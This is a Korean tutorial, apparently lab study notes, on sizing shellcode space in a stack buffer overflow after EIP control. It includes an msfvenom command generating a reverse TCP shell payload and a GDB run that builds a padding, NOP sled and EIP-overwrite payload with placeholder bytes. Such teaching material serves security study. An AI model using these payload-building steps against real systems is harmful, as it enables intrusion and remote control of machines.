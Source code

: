 # 셸코드 길이 결정: EIP 제어 이후의 단계

BOF(버퍼 오버플로우)에서 EIP를 제어한 이후, 실제 악성 코드를 삽입하려면 \*\*쉘코드(Shellcode)\*\*를 어디에 넣고, 얼마나 넣을 수 있는지 공간 계산이 필요하다. 이 과정을 시각적 흐름과 함께 정리한다.

---

## 쉘코드 삽입을 위한 공간 계산

- 목표: 리버스 쉘 등의 동작을 담은 **쉘코드**를 삽입하고 실행시키는 것
- 우선 `msfvenom`을 사용하여 payload 크기를 확인한다.

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=31337 \
  --platform linux --arch x86 --format c
```

- 출력 예:

```
Payload size: 68 bytes
```

- 여유 있게 넉넉히 공간을 확보하는 게 좋음 (예: 150바이트)

---

## NOP Sled와 전체 구조 만들기

- 보통 shellcode 앞에 \*\*NOP sled (`\x90`)\*\*를 삽입하면 안정적으로 실행됨
- 전체 구조:

  - 전체 오버플로우 크기: **1040 바이트**
  - NOP 공간: **100 바이트**
  - Shellcode 공간: **150 바이트**
  - EIP 덮기: **4 바이트**
  - 따라서 패딩(Buffer)은: `1040 - 100 - 150 - 4 = 786` 바이트
  
> 패딩(Buffer)이란?: **"공간을 채우기 위한 임시 데이터"**(버퍼 오버플로우)

![쉘코드 구조1](./images/buffer_overflow_8.png)

---

## GDB 실험으로 확인하기

- 아래와 같이 페이로드를 구성하고 GDB에서 실행해보자.

```bash
(gdb) run $(python -c 'print "\x55" * 786 + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

- `\x55` - padding (EIP 전까지 채움)

- `\x90` - NOP sled

- `\x44` - 쉘코드 자리 (임시 바이트로 테스트)

- `\x66` - EIP에 덮을 값 (예: `0x66666666`)

- 결과:

```
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

![쉘코드 구조2](./images/buffer_overflow_7.png)

---

## 요약

| 구성 요소     | 크기 (bytes) | 설명                |
| --------- | ---------- | ----------------- |
| Padding   | 786        | EIP 전까지 채움        |
| NOP sled  | 100        | 안정적 실행 보장용 NOP    |
| Shellcode | 150        | 실제 공격 payload     |
| EIP       | 4          | 덮어서 shellcode로 점프 |

- 쉘코드 길이 계산은 단순히 shellcode 크기만 보는 것이 아니라, 전체 페이로드 구조를 정확히 조합하고 시뮬레이션하는 것이 핵심이다.
